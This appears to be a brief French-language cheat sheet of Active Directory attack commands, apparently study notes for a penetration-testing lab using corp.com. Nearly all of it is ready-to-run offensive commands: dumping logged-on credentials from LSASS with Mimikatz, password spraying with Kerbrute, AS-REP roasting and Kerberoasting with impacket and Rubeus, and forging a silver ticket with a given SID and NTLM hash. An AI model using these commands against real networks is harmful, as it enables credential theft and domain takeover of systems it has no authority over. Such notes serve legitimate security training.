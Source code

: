 
### Information mise en cache

Fichier de hash contenu dans : LSASS --> Local Security Authority Subsystem Service (droit admin)

### Mimikatz

Activer _SeDebugPrivlege_
```
privilege::debug
```

Vider informations d'identification de tous les utilisateurs connectés
```
sekurlsa::logonpasswords
```
### Attaques de mot de passe

Vérifier la politique des comptes : 
```
net accounts
```

#### Kerbrute

```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

### AS-REP Roasure

Sur Kali :
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Ou sur cible :
```
.\Rubeus.exe asreproast /nowrap
```
### Kerberoasting

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
### Silver Ticket

Prérequis :
- NTLM --> mimikatz
- SID --> whoami /users
- SPN --> 

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

Vérifier : ``klist``


